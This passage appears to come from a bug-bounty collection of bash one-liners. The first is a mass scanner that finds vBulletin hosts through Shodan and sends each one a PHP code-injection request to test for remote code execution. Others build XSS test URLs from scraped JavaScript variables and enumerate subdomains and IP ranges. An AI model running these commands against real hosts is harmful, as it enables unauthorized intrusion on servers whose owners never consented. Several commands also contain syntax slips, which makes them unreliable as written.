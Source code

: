 ```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```

### Find JS Files
> @D0cK3rG33k

```bash
assetfinder site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done
```

### Extract Endpoints from JS File
> @renniepak

```bash
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

### Get CIDR & Orgz from Target Lists
> @steve_mcilwain

```bash
for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```

### Get Subdomains from RapidDNS.io
> @andirrahmani1

```bash
curl -s "https://rapiddns.io/subdomain/$1?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u
```

### Get Subdomains from BufferOver.run
> @\_ayoubfathi\_

```bash
curl -s https://dns.bufferover.run/dns?q=.DOMAIN.com |jq -r .FDNS_A[]|cut -d',' -f2|sort -u
```

### Get Subdomains from Riddler.io
> @pikpikcu
```bash
curl -s "https://riddler.io/search/exportcsv?q=pld:domain.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u 
```

### Get Subdomains from VirusTotal
> @pikpikcu
```bash
curl -s "https://www.virustotal.com/ui/domains/domain.com/subdomains?limit=40" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u
```
